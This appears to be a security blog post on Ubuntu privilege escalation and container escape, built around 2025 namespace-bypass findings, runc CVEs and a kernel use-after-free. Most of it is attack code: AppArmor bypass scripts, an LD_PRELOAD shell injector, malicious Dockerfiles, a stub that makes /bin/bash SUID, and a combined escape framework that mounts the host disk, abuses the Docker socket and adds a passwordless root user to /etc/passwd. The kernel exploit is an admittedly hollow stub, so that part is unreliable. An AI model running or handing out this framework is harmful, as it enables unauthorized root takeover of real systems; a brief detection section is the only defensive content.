

<div style="background:linear-gradient(135deg,rgba(220,38,38,0.12),rgba(124,58,237,0.08));border:1px solid rgba(220,38,38,0.3);border-radius:12px;padding:1.25rem;margin-bottom:1.5rem;">
<strong style="color:#f87171;">⚠️ Research &amp; Education Only</strong> — All CVEs listed have patches available. Update your systems immediately. Do not use on production systems without authorization.
</div>

## Executive Summary

Ubuntu systems (especially **24.04 LTS**) are vulnerable to multiple privilege escalation vectors discovered in 2025/2026. This post combines three categories of cutting-edge exploits:

1. **User Namespace Bypasses** — Qualys, March 2025
2. **runc Container Breakout CVEs** — November 2025
3. **Kernel Use-After-Free** — TyphoonPWN 2025

### Vulnerability Matrix

| CVE / Finding | Affected | Method | Severity |
|--------------|----------|--------|----------|
| Namespace Bypasses (2025) | Ubuntu 24.04 | aa-exec / busybox / LD_PRELOAD | High |
| CVE-2025-31133 | runc ≤ 1.2.7 | Masked path symlink | High (7.3) |
| CVE-2025-52565 | runc ≤ 1.3.2 | /dev/console bind-mount | High |
| CVE-2025-52881 | runc ≤ 1.4.0-rc.2 | Procfs write redirect | Critical |
| TyphoonPWN UAF | Kernel 6.8.0-60 | af_unix GC UAF | Critical |
| CVE-2025-40300 | Ubuntu 24.04 | VMSCAPE info leak | Medium |

### Attack Chain



---

## Phase 1: User Namespace Bypasses (2025)

Ubuntu 23.10+ restricts unprivileged user namespaces via AppArmor. Qualys discovered three reliable bypasses in March 2025.

### Bypass 1 — aa-exec Profile Abuse

```bash
#!/bin/bash
# bypass_aaexec.sh

echo "[*] Bypassing Ubuntu userns restrictions via aa-exec"

# Check available profiles with userns permission
grep -l "userns," /etc/apparmor.d/* 2>/dev/null | while read profile; do
    echo "  - $(basename $profile)"
done

# Method: trinity profile (most permissive)
aa-exec -p trinity -- unshare -U -r -m /bin/bash -c "
    echo '[+] Inside user namespace'
    echo '[*] UID: \$(id -u)'
    mount --bind /etc/passwd /etc/passwd 2>/dev/null && \
        echo '[+] CAP_SYS_ADMIN obtained' || echo '[-] Mount failed'
    /bin/bash
"

# Alternatives
aa-exec -p chrome  -- unshare -U -r -m /bin/bash
aa-exec -p flatpak -- unshare -U -r -m /bin/bash
```

### Bypass 2 — busybox Shell (Roddux)

```bash
#!/bin/bash
# bypass_busybox.sh

busybox sh -c "
    /usr/bin/unshare -U -r -m /bin/bash -c '
        echo \"[+] Full capabilities via busybox\"
        mount --bind /etc/passwd /etc/passwd 2>/dev/null && \
            echo \"[+] CAP_SYS_ADMIN acquired\"
        /bin/bash
    '
"

# Direct busybox unshare
busybox unshare -U -r -m /bin/bash
```

### Bypass 3 — LD_PRELOAD Injection

```bash
#!/bin/bash
# bypass_ldpreload.sh

# Compile injector
cat > /tmp/shell.c << 'EOF'
#include <unistd.h>
static void __attribute__((constructor)) _init(void) {
    execve("/bin/bash",
           (char*[]){"bash","-c","unshare -U -r -m /bin/bash",NULL},
           NULL);
}
EOF
gcc -fpic -shared -o /tmp/shell.so /tmp/shell.c

# Inject into processes with permissive AppArmor profiles
LD_PRELOAD=/tmp/shell.so /usr/bin/nautilus  2>/dev/null &
LD_PRELOAD=/tmp/shell.so /usr/bin/evince    2>/dev/null &
LD_PRELOAD=/tmp/shell.so /usr/bin/gedit     2>/dev/null &
```

### Combined Namespace Framework

```bash
#!/bin/bash
# namespace_escape_2025.sh

UBUNTU_VER=$(lsb_release -rs 2>/dev/null)
echo "[*] Ubuntu: $UBUNTU_VER"

# Check restriction status
for f in apparmor_restrict_unprivileged_userns \
         apparmor_restrict_unprivileged_unconfined; do
    [ -f "/proc/sys/kernel/$f" ] && \
        echo "[*] $f: $(cat /proc/sys/kernel/$f)"
done

# Method 1: aa-exec
if aa-exec -p trinity -- unshare -U -r -m true 2>/dev/null; then
    echo "[+] aa-exec bypass SUCCESS"
    exec aa-exec -p trinity -- unshare -U -r -m /bin/bash
fi

# Method 2: busybox
if busybox sh -c "unshare -U -r -m true" 2>/dev/null; then
    echo "[+] busybox bypass SUCCESS"
    exec busybox sh -c "unshare -U -r -m /bin/bash"
fi

# Method 3: LD_PRELOAD
if command -v nautilus &>/dev/null; then
    gcc -fpic -shared -o /tmp/shell.so /tmp/shell.c 2>/dev/null
    LD_PRELOAD=/tmp/shell.so timeout 2 nautilus 2>/dev/null
fi
```

---

## Phase 2: Kernel Exploits (TyphoonPWN 2025)

### af_unix Use-After-Free (Kernel 6.8.0-60)

Presented at TyphoonPWN 2025 — exploits use-after-free in the `af_unix` garbage collector via carefully timed FUSE mounts.

```bash
# Check if target kernel
uname -r   # 6.8.0-60-generic = vulnerable
```

```c
/* kernel_uaf_stub.c — simplified PoC outline */
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <unistd.h>
#include <pthread.h>

#define SOCKET_COUNT 20000

/* Step 1: Create socket pairs and pass FDs to inflate refcount */
void trigger_gc(void) {
    for (int i = 0; i < SOCKET_COUNT; i++) {
        int fds[2];
        socketpair(AF_UNIX, SOCK_STREAM, 0, fds);
        /* send fd to sibling to create circular reference */
        close(fds[1]);
    }
}

/* Step 2: Spray freed sk_buff via AF_PACKET TPACKET_V3 */
void spray_skbuff(void) {
    int pkt_sock = socket(AF_PACKET, SOCK_RAW, 0);
    /* allocate pg_vec → overwrite freed sk_buff entry */
    (void)pkt_sock;
}

/* Step 3: Overwrite modprobe_path → trigger usermodehelper */
void overwrite_modprobe(void) {
    /* write /tmp/x script, trigger by loading unknown module */
    system("echo '#!/bin/bash\nchmod 4777 /bin/bash' > /tmp/x");
    system("chmod +x /tmp/x");
}

int main(void) {
    printf("[*] Triggering af_unix GC UAF...\n");
    trigger_gc();
    spray_skbuff();
    overwrite_modprobe();
    printf("[*] Triggering root shell...\n");
    system("/bin/bash -p");
    return 0;
}
```

> Full PoC requires precise FUSE timing (see TyphoonPWN 2025 slides). Reference: USN-7860-2, USN-7851-2.

---

## Phase 3: runc Container Escape CVEs (2025/2026)

### CVE-2025-31133 — Masked Path Symlink Abuse

Affects **runc ≤ 1.2.7** and **1.3.0-rc.1 – 1.3.1**. A symlink in a container image can cause runc to bind-mount host procfs paths that were supposed to be masked.

```bash
# Check version
runc --version

# Malicious Dockerfile
cat > /tmp/Dockerfile.31133 << 'EOF'
FROM alpine:latest
# Symlink masked path to sensitive procfs entry
RUN ln -sf /proc/sys/kernel/core_pattern /dev/null
# When runc tries to mask /dev/null → actually mounts core_pattern
CMD ["/bin/sh","-c","echo '|/tmp/escape.sh' > /proc/sys/kernel/core_pattern"]
EOF

docker build -t malicious-31133 /tmp/ -f /tmp/Dockerfile.31133
docker run --rm malicious-31133
```

### CVE-2025-52565 — /dev/console Bind-Mount

runc binds `/dev/console` into the container without validating the destination. A symlink inside the image can redirect this bind-mount to any host procfs path.

```bash
cat > /tmp/Dockerfile.52565 << 'EOF'
FROM alpine:latest
RUN ln -sf /proc/sysrq-trigger /dev/console
CMD ["/bin/sh","-c","echo 'c' > /dev/console"]
EOF

docker build -f /tmp/Dockerfile.52565 -t console-exploit /tmp/
docker run --rm console-exploit
```

### CVE-2025-52881 — Procfs Write Redirect

Critical — allows arbitrary write to `/proc` files from inside a container.

```c
/* write_redirect_stub.c */
#define _GNU_SOURCE
#include <sched.h>
#include <sys/mount.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
    unshare(CLONE_NEWNS);
    mount(NULL, "/", NULL, MS_REC | MS_SHARED, NULL);

    /* Create tmpfs with symlink to procfs target */
    mkdir("/tmp/proc", 0755);
    mount("tmpfs", "/tmp/proc", "tmpfs", 0, NULL);
    symlink("/proc/sysrq-trigger", "/tmp/proc/self/attr/current");

    /* Bind-mount over /proc to trick runc */
    mount("/tmp/proc", "/proc", NULL, MS_BIND | MS_REC, NULL);

    /* Redirect write */
    system("echo 'c' > /proc/self/attr/current");
    return 0;
}
```

```bash
gcc write_redirect_stub.c -o write_redirect && ./write_redirect
```

---

## Phase 4: Complete Framework

```bash
#!/bin/bash
# complete_escape_2026.sh

RED='\033[0;31m'; GREEN='\033[0;32m'
YELLOW='\033[1;33m'; BLUE='\033[0;34m'; NC='\033[0m'
p_ok()   { echo -e "${GREEN}[+]${NC} $1"; }
p_info() { echo -e "${BLUE}[*]${NC} $1"; }
p_warn() { echo -e "${YELLOW}[!]${NC} $1"; }
p_err()  { echo -e "${RED}[-]${NC} $1"; }

p_info "Kernel: $(uname -r)"
p_info "Ubuntu: $(lsb_release -rs 2>/dev/null)"
p_info "User:   $(id)"

# ── Phase 1: Namespace Bypass ──────────────────────────────────
p_info "Phase 1: Namespace Bypass"
if command -v aa-exec &>/dev/null; then
    aa-exec -p trinity -- unshare -U -r -m true 2>/dev/null && {
        p_ok "aa-exec bypass OK"; exec aa-exec -p trinity -- unshare -U -r -m /bin/bash
    }
fi
if command -v busybox &>/dev/null; then
    busybox sh -c "unshare -U -r -m true" 2>/dev/null && {
        p_ok "busybox bypass OK"; exec busybox sh -c "unshare -U -r -m /bin/bash"
    }
fi

# ── Phase 2: Kernel Exploit ────────────────────────────────────
p_info "Phase 2: Kernel Check"
case "$(uname -r)" in
    *6.8.0-60*) p_warn "Vulnerable to TyphoonPWN UAF (6.8.0-60)" ;;
    *6.8*|*6.10*|*6.12*) p_warn "Check for known UAF chains" ;;
esac

# ── Phase 3: Container Escape ──────────────────────────────────
if [ -f /.dockerenv ]; then
    p_info "Phase 3: Container Escape"
    if [ -w /dev ]; then
        p_ok "Privileged — mounting host..."
        mkdir -p /mnt/host
        for dev in sda vda xvda nvme0n1; do
            mount /dev/$dev /mnt/host 2>/dev/null && break
        done
        [ -f /mnt/host/etc/passwd ] && { p_ok "Host mounted"; chroot /mnt/host /bin/bash; exit 0; }
    fi
    if [ -S /var/run/docker.sock ]; then
        p_ok "Docker socket — spawning root container..."
        docker run --privileged -v /:/host alpine chroot /host /bin/bash 2>/dev/null
    fi
fi

# ── Phase 4: Host Root ─────────────────────────────────────────
p_info "Phase 4: Host Root"
[ "$(id -u)" -eq 0 ] && { p_ok "Already root!"; exec /bin/bash -i; }
sudo -l 2>/dev/null | grep -q NOPASSWD && { p_ok "Sudo NOPASSWD"; exec sudo su -; }
groups 2>/dev/null | grep -q docker && {
    p_ok "Docker group"; exec docker run --privileged -v /:/host alpine chroot /host /bin/bash
}
[ -w /etc/passwd ] && {
    p_ok "Writable /etc/passwd"
    echo 'pwn::0:0:root:/root:/bin/bash' >> /etc/passwd && su pwn
}
find / -perm -4000 -type f 2>/dev/null | head -5 | while read b; do p_info "SUID: $b"; done
p_err "No quick vector — run linpeas.sh for full enum"
```

---

## Detection Indicators (Blue Team)

```bash
# AppArmor bypass attempts
grep -E "aa-exec|busybox" /var/log/audit/audit.log 2>/dev/null

# Unshare activity
grep "unshare" /var/log/audit/audit.log 2>/dev/null

# Unusual mounts
mount | grep -E "/tmp|/dev/shm"

# runc container spawning
ps aux | grep runc | grep -v grep

# UAF symptoms
dmesg | grep -i "panic\|oops\|use.after.free"
```

---

## References

1. **Qualys Security Advisory** — *Three bypasses of Ubuntu's unprivileged user namespace restrictions* (March 2025)
2. **runc CVE-2025-31133** — [github.com/opencontainers/runc/security](https://github.com/opencontainers/runc/security)
3. **runc CVE-2025-52565 / CVE-2025-52881** — November 2025
4. **TyphoonPWN 2025** — Ubuntu Kernel UAF af_unix GC (October 2025)
5. **Ubuntu Security Notices** — USN-7860-2, USN-7851-2

---

<div style="background:rgba(220,38,38,0.08);border:1px solid rgba(220,38,38,0.25);border-radius:8px;padding:1rem;margin-top:1.5rem;">
<strong style="color:#f87171;">Legal Disclaimer</strong><br>
<span style="font-size:0.9rem;color:var(--text-secondary);">This framework is provided strictly for security research, education, and authorized penetration testing in isolated environments. All CVEs have available patches — update your systems. The author assumes no responsibility for misuse.</span>
</div>
